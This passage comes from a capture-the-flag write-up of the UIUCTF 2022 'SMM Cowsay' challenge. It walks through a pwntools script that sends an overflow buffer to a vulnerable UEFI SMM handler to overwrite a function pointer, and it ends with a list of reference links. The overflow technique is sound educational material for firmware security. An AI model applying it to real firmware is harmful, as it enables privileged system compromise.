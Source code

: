 The first part of the exploit is the same as for SMM Cowsay 1: get ahold of  
`BootServices->AllocatePool` and `->LocateProtocol`, find the
`SmmCommunication`  
protocol, allocate some memory to write our message, and send it to
`SmmCowsay`  
through its SMI handler. The only thing that changes is *what we are sending*:  
this time the `->Data` field of the `EFI_SMM_COMMUNICATE_HEADER` will be
filled  
with a string of 400 bytes of garbage plus 8 more to overwrite the function  
pointer.

We will fill all unused general purpose register with easily identifiable
values  
so that we can see what is spilled on the stack:

```python  
# ... same code as for SMM Cowsay 1 up to the allocation of `buffer`

input('Attach GDB now and press [ENTER] to continue...')

payload = 'A'.encode('utf-16-le') * 200 + p64(0x4141414141414141)

code = asm(f'''  
   /* Copy data into allocated buffer */  
   lea rsi, qword ptr [rip + data]  
   mov rdi, {buffer}  
   mov rcx, {0x18 + len(payload)}  
   cld  
   rep movsb

   /* Communicate(mSmmCommunication, buffer, NULL) */  
   mov rcx, {mSmmCommunication}  
   mov rdx, {buffer}  
   xor r8, r8  
   mov rax, {Communicate}

   mov ebx, 0x0b0b0b0b  
   mov esi, 0x01010101  
   mov edi, 0x02020202  
   mov ebp, 0x03030303  
   mov r9 , 0x09090909  
   mov r10, 0x10101010  
   mov r11, 0x11111111  
   mov r12, 0x12121212  
   mov r13, 0x13131313  
   mov r14, 0x14141414  
   mov r15, 0x15151515  
   call rax

   test rax, rax  
   jnz fail  
   ret

fail:  
   ud2

data:  
   .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */  
   .quad {len(payload)}                   /* Buffer->MessageLength */  
   /* payload will be appended here to serve as Buffer->Data */  
''')

conn.sendline(code.hex().encode() + payload.hex().encode() + b'\ndone')  
conn.interactive() # Let's see what happens  
```

[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-